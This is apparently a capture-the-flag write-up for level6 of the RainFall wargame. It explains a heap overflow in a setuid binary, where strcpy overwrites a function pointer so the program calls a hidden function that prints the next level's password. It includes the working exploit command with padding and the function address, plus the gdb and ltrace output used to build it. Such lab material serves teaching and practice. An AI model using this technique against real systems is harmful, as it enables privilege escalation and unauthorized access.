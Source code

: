 level6
======

*	We spawn with a [level6](src/level6) executable
	```console
	level6@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level7 users 5274 Mar  6  2016 level6
	level6@RainFall:~$ ./level6 
	Segmentation fault (core dumped)
	level6@RainFall:~$ ./level6 test
	Nope
	```
*	Let's look at the [code](src/level6.c):
	- `main` takes a string as argument and then:	
		- `malloc dest[64]`
		- `malloc ppcVar1[4]`
		- store address of `m` in `ppcVar1`
		- `strcpy()` input into `dest`
		- calls `(**ppcVar1)()`
	- `m` just `puts("Nope")`
	- `n` cat the password of the next level

	So this seems to be a new type of issue since we have no `gets` nor `printf` here.
*	Since `m` is called through `ppcVar1`, our main goal should be to replace the address to `n`. We might exploit `strcpy()` which does no memory bound checking.
*	Using `ltrace` allow us to check that `dest` and `ppcVar1` are contiguously allocated on the heap or else we wouldn't be able to overflow it the right way.
	```console
	level6@RainFall:~$ ltrace ./level6 
	[...]
	malloc(64)         = 0x0804a008
	malloc(4)          = 0x0804a050
	```
	They do go one after the other and have a `0x48(HEX)` -> `72(DEC)` bytes difference
*	Now we need the address of `n`
	```gdb 
	(gdb) x n 
	0x8048454 <n>:  0x83e58955
	```
	little endian -> `\x54\x84\x04\x08`
*	Let's finish this exercice:
	```console
	level6@RainFall:~$ ./level6 $(python -c 'print("a" * 72 + "\x54\x84\x04\x08")')
	f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
	```